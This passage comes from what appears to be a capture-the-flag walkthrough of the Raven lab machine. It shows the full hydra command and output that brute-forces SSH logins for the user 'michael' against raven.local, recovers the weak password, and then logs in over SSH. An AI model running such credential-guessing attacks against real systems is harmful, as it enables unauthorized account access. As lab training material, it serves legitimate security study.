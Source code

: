 When it became clear that it would take way too long to bruteforce the password, I decided to try a directory/file scan on the target using `dirbuster`. It found a whole bunch of directories and files, but nothing that I could leverage or use to move forward. 

I then started going through the site manually, checking each page, looking at the HTML source for clues, but once again, nothing of interest stood out. 

At this point, I realized it may be time to move on to a different service. SSH on port 22 was the other interesting one identified by `nmap`. Having the usernames `michael` and `steven`, I wondered if I could perform a bruteforce attack on those instead against the SSH service. For that I used `hydra`. 

I decided to use the `rockyou.txt` wordlist and just bruteforce each username one at a time. By default `rockyou.txt` is gzip'd so you'll need to unzip it first before you can use it: 

```
root@kali:~# gunzip /usr/share/wordlists/rockyou.txt.gz
```

`hydra` takes a variety of options. For SSH it's important to increase the timing between requests, otherwise you start getting errors. The other options I'll use will attempt to use the username as the password, verbose mode, logging the results to a file, and quitting once it finds the password. 

```
root@kali:~# hydra -l michael -e nsr -V -o hydra.log -t8 -f ssh://raven.local
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2018-11-08 23:50:38
[DATA] max 3 tasks per 1 server, overall 3 tasks, 3 login tries (l:1/p:3), ~1 try per task
[DATA] attacking ssh://raven.local:22/
[ATTEMPT] target raven.local - login "michael" - pass "michael" - 1 of 3 [child 0] (0/0)
[ATTEMPT] target raven.local - login "michael" - pass "" - 2 of 3 [child 1] (0/0)
[ATTEMPT] target raven.local - login "michael" - pass "leahcim" - 3 of 3 [child 2] (0/0)
[22][ssh] host: raven.local   login: michael   password: michael
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2018-11-08 23:50:39
```

After having wasted all the time trying to bruteforce Wordpress, it turned out that the password for `michael` on SSH was `michael`. So with the user credentials on hand, let's log in: 

```
root@kali:~# ssh michael@raven.local
Warning: Permanently added the ECDSA host key for IP address '192.168.206.131' to the list of known hosts.
michael@raven.local's password:

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
You have new mail.
-bash: warning: setlocale: LC_ALL: cannot change locale (en_US.UTF-8)
-bash: warning: setlocale: LC_ALL: cannot change locale (en_US.UTF-8)
-bash: warning: setlocale: LC_ALL: cannot change locale (en_US.UTF-8)
michael@Raven:~$
```
